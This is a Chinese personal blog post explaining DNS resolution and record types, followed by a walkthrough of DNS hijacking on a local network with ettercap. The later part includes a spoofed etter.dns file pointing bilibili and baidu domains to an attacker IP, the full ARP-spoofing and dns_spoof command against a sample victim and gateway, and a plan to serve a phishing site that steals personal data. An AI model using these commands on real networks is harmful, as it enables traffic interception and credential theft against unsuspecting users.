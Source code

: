 ```yaml
---
layout: post
title: "网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持"
date: "2022-10-09T22:21:55.507Z"
---
```

网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持
===================================

alittlemc，个人原创，个人理解和观点。若有错误、不理解请与我联系，谢谢！

*   介绍了DNS的解析过程。
*   DNS劫持的思路和实践。

DNS
===

域名
--

以为live.bilibili.com为例子，从后到前依次为顶级（一级）域名com、二级域名bilibili，三级域名live。www是特殊的标示代表主机，有一些域名再长点，就继续四级域名、五级域名加下去。

*   其实在顶级域名后还有一个根域写作**.（英文句号）**，**www.bilibili.com.**
*   顶级域名一般代表具有一定性质的网站，com商业、cn中国、gov政府机构等等
*   二级域名代表具体的网页名称所以主体
*   三级域名就是更细的划分，比如**teiba**.baidu.com
*   www是个特殊代表主机

DNS概述
-----

**DNS**（Domain Name System，域名系统），DNS简单来说就是**已知域名求IP**的服务。在TCP/IP协议下的网络中，设备之间通信都是用网络层的IP作目标标识的，但是访问网页我们往往通过域名来访问，比如bilibili对应的IP解析为119.3.70.188，https://bilibili.com比如https://119.3.70.188都可以打开bilibili站点，但是IP地址不是每个人都能很好的记忆的，更何况将来如果IPv6广泛应用了（如图1所示），所以是DNS一项很重要的技术。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008200222990-1520299257.png)

**图1**.www.bilibili.com解析出的IPv6地址

DNS服务在提供域名解析额同时，还为服务器提供负载均衡，IP优化域名优化的效果。

*   DNS一条域名可以解析出多条IP结果，这些IP对应提供相同的服务但是位置不同的服务器，将不同的IP返回给用户，不至于让某台服务器压力太大。
*   有一些高级的DNS服务器会客户的运营商提供较优的IP，比如在广西访问广东的IP往往比访问北京的来得更快些。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210432576-19178791.png)

  **图2**.bilibili.com全部解析结果

DNS解析过程
-------

DNS一开始本机会“**先求人不如求己**”，先查询本机DNS存放在内存中缓存（这缓存几个小时后清除），本机hosts文件。实在是没有才会向本机设置的DNS Server发起请求，本机的DNS Server为阿里的223.5.5.5。

DNS使用UDP:53端口（当然也可以使用TCP:53，在较大请求和返回数据的情况下使用，因为UDP报文最大576字节且后续报文不分片直接丢弃。所以减去UDP报头，DNS报文数据限制在512字节内）。UDP的报文很干净，一来一回也不需要握手。

*   在终端输入NSLOOKUP查询一下www.bilibili.com，并且抓包：

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210936008-1059768507.png)

 **图3**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

DNS Server接受到任务后会查询DNS数据库的，当然“人非圣贤孰能无过”，DNS Server也会查询不到IP，会再向上游DNS Server发起请求：

*   递归查询：不知道就问上一级（PC请求Server1时候也属于递归查询）
*   迭代查询：不知道认识的都问一遍

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008215532741-476720014.png)

 **图4**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

 DNS查询记录
--------

DNS有不同的记录：

*   A 记录
    *   域名解析IPv4地址
*   AAAA 记录
    *   和A 记录类似，域名解析IPv6 地址
*   PTR记录
    *   IP解析域名，即反向解析，比如nslookup输入server 223.5.5.5反向解析出了public1.alidns.com

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009211416539-2015593226.png)

**图5**.反向解析

*   CNAME 记录
    *   CNAME 记录另一个别名域，

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009204338882-250460677.png)

**图6**.a.w.bilibili.com和www.bilibili.com相同

*   其他的记录还有:SOA 记录还有、MX记录、NS记录、TXT记录、SRV记录、APL记录、CAA记录、DNAME记录 等等。太多啦，不在本次的讨论范围啦。
    

基于ettercap实现DNS劫持
=================

完成思路
----

温馨提示：DNS劫持是违法的，请不要以身试法（一般情况我们称黑客 为小黑子香精捞饭）

1.  搭建假的DNS Server提供可以自定义DNS解析条件，基于ettrcap使用自带的**/etc/ettercap/etter.dns**。
2.  搭建假的钓鱼网站，其IP由假的DNS服务器提供，当然也可以搭建某些中转的网站，比如某个编写了恶意脚本的站点，用户打开后GET 其URL，再执行脚本后跳转。（相比于近似发，taobao.com和ta0ba0.com，DNS可以让正确的域名对于错误的站点，更隐蔽）
3.  部署站点：
    *   ettercap的基于可arp来实现的，所以只在局域网中使用，用于。
    *   钓鱼网站站点可以搭建在局域网内也可以搭建在公网中，具体内容和作用嘛，其实应该有看见过，用于盗取一些个人信息；配置使用nginx、apache作为中间价，PHP之类作为解析（或者静态的html，post到动态PHP界面）
4.  使用ettercap发起攻击

ettercap的使用
-----------

ettercap是基于ARP 地址欺骗来实现中间人攻击的工具。

可恶我的kali截图丢了，后面我会补上。

一般情况下完整版的Kali是自带甚至有图形界面，

*   github：https://github.com/Ettercap/ettercap
*   官网：[Downloads « Ettercap (ettercap-project.org)](https://www.ettercap-project.org/downloads.html)

### 编辑（假DNS请求）**/etc/ettercap/etter.dns**

\# 域名    A    钓鱼网站IP
# 比如
# 正向A

www.bilibili.com    A    10.100.10.4
www.baidu.com    　A    10.100.10.4

# 反向PRT
www.bilibili.com    PRT    10.100.10.4
www.baidu.com    PRT    10.100.10.4

### 发起攻击过程

\# 查看网关 网卡等
root @ localhost in ~ \[21:54:10\] C:1$ **sudo route -****n**
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
**10.100.10.1** 0.0.0.0 255.255.255.192 U 0 0 0 **wlan0**

\---

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /被攻击者ip// /被攻击者网关//**
\-i <网卡>：指定网卡
\-T：只显示文本
\-q：安静模式，不显示抓到的数据包内容
\-M <攻击方式>：执行中间人攻击，这里的arp:remote为arp欺骗
\-P <插件名>：使用的插件，这里使用dns\_spoof即可dns欺骗插件

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /10.100.10.120// /10.100.10.1//**

\--

今天先写这么多啦，好困啊，今天早点休息吧。